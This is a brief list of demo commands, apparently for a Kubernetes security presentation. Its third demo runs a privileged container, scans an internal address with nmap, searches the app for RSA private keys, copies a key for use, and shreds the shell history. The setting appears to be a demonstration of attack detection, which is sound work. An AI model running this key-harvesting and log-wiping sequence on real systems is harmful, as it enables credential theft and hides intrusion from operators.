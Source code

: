 ## Demo1:
git commit -am 'vuln introduced'
git push
git commit -am 'vuln removed'
git push

## Demo2:
kubectl delete deployment checkoutservice
kubectl apply -f release/kubernetes-manifests.yaml

## Demo3
kubectl apply -f privilegedContainer.yaml
kubectl exec -it nginx-privileged bash
touch ~/.bash_history && nmap 10.35.244.69 -Pn -p 50051
grep -ri -e "BEGIN RSA PRIVATE" /app
cp /app/key/throwAway.pem my_file.txt && python /app/connect.py
shred -f ~/.bash_history
